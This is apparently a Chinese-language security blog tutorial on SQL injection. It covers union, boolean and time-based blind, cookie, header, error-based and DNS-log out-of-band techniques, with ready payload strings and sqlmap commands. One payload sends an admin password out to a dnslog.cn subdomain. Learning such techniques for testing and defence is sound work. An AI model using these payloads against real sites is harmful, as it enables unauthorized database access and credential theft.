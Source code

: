 ```yaml
---
title: sql注入
date: 2022-04-10 16:26:17
categories:
- security
tags:
- sql注入
toc: true
---
```

**摘要：本文介绍了sql注入**
<!-- more -->
---
# 零.sql
## 1.常用语法
mysql和sql server都是最常用的数据库语言，虽然语法不同但特别相似。其中mysql是开源的，sql server是微软开发的。
```
limit m,n # 查询m+1行的n条数据。 m+1行开始查询多少条？如limit 0,1
group_concat #多行数据用一行显示
```
## 2.information_schema
库：information_schema 是Mysql数据库里面一个自带的库的库名，存储着你所有的数据库名、表名和列名。
表：schemata,tables，columns;schemata存库名，tables存放都是表名，columns都是列名
列：table_name(存储的表名)， table_schema（存储的是库名），column_name（存储的是列名）
## 3.注释
mysql的两种注释：
```c
-- abc   //abc不会被识别，注意--后有空格，但打空格会被自动取消掉，可以打空格的url编码%20或+
#abc    //GET型不能打#,要打#的url编码%23
```

# 一、sql注入
## 1.什么是sql注入
用户在网页输入的内容被浏览器当做数据库语句进行执行。
原因是服务端在接收来自客户端的查询参数后，未对查询参数进行严格的过滤。导致恶意用户可在查询参数中插入恶意的sql语句来查询数据库中的敏感信息，最终造成数据库信息泄露。这也是安全防护的方法

## 2.注入分类
### 显错注入/联合注入
基本流程
1.判断网站是否存在数据库注入漏洞
	and 1=2  网页没有内容  => 这个网站存在数据库注入漏洞。
原因：我们输入的数据库语句被网站代入到他的数据库中执行了。
2.判断字段（列）数， order by  ，作用是排序。 
	order by 3 --> 页面没有内容，说明网站的那个表没有3列
3.查看回显点： union ，作用是联合查询，能够同时执行两条数据库查询语句。
注意：必须保证两条数据库查询语句查询的表的列数一致。
回显点：如修改select 1,2中的2，页面内容发生变化，则第二列为回显点。
4.查询相关内容
    and 1=2 union select 1,2
    and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1 
    and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='zdafiilhhc' limit 0,1 
    and 1=2 union select 1,列名 from 表名 limit 0,1


### 盲注
#### (1)布尔注入
盲注和显错注入的区别就是没有回显点。即我们要通过判断的方式，去查询
```
length(database()) # 查询的是【当前数据库库名】的长度。
length(database())=2  --> 无查询数据 --> 当前数据库的库名不是2个字符
substr('cmd',1,1) #  --> 截取的是 c 
substr(database(),1,1)  # 截取【当前数据库库名】的第一个字符。
and substr(database(),1,1)='a' --> 页面无内容--> 说明当前数据库库名第一个字符不是a
and substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1) = 'a' --> 第一个字符不是a
```
#### (2)时间注入
```
if(length(database())=12,sleep(5),1) --> 网站延迟显示5秒，说明判断条件是对的-->当前数据库库明的长度是12
```
### cookie注入
当你使用Cookie进行传参的时候 ，传参的值一定要进行URL编码的。
默认浏览器是会URL编码的。  空格--> %20
如果用的数据库是ACCESS，语法比较正规(select后一定要有from即要先找到一个表名)
`b9a2a2b5dffb918c -> md5解码-> welcome`
```
escape() # 函数，作用：进行URL编码
document.cookie = "id=" + escape("171 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin")
```

### head注入
HEAD注入条件是知道用户名密码或登录状态

网络中web访问是以IP数据包形式传输数据，每个数据包由头部（head）和数据体（body）组成，head中有访问者的各种信息。

有的网站他会为了保存我们的信息作为比对会把head头中的信息保存到数据库中以便下一次使用。通讯时我们若能抓到请求数据包，并将头部中身份信息修改则为HEAD注入。抓包实例如下（使用burp）

就像图中User-Agent本意是表示你是哪种访问方式例如苹果、微软、安卓、华为等等，图中我把他的值更换为了一个注入语句，并报错就返回了我关心的结果。

```
updataxml或extractvalue #报错函数 head注入是通过引起报错，来返回需要的信息，所以不需要回显点
concat
```
下面详细讲解UPDATEXML (XML_document, XPath_string, new_value);
```
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串)<--有特定要求格式
第三个参数：new_value，String格式，替换查找到的符合条件的数据
作用：改变XML_document文档中符合XPATH_string的值
```
注入语句为
```
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```
其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出错误`ERROR 1105 (HY000): XPATH syntax error: '得到的数据'`
### 报错注入
任何能引起数据库报错的输入，如引号

![3](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs3.png)

```bash
试下' and 1=1111,看报错信息
'aandnd updatexml(1,concat(0x21,@@version,0x21),1)-- q#能让数据伴随报错一起显示
0x21->!的编码 能让我们更快地识别出信息
```
### DNS_LOG注入
利用DNS解析然后配合日志记录，将数据库里面的数据oob：out of bind  数据外带。。
特点：能够将盲注变成显错注入。
[DNS解析记录的日志网站](http://www.dnslog.cn/),作用：可以申请一个域名，然后会记录下任何访问了这个域名和子域名的IP
```bash
fefaad.dnslog.cn #有记录。
database.fefaad.dnslog.cn   #子域名也有记录
```
```bash
load_file() # 作用是：读文件
concat() #  作用是 拼接字符串
select load_file() #读取文件内容

select load_file(concat(‘//’,(数据库语句),’.域名/1.txt’))
select load_file(concat('//',(select password from admin limit 0,1),'.qtm0xb.dnslog.cn/1.txt'))
```
如图，发现没有回显点后，先输入and (),要执行括号里的语句:`select load_file(concat(‘//’,(数据库语句),’.域名/1.txt’))`注意一定要带一个文件，文件是什么无所谓，但loadfile是读取文件的，必须在mysql命令里写一个文件名上去。

# 二、bypass
# 三、sqlmap
```bash
sqlmap -u ""  #kali用法
sqlmap -u "" -p id,wd #指定测试的参数，默认测试所有参数 --逐参删除法，直到找到影响页面的参数，只能跟-u
sqlmap -r 1.txt #确定目标网站，1.txt存放burp抓到的请求包
–force-ssl #https。或者可以在Host头后面加上端口443。
```
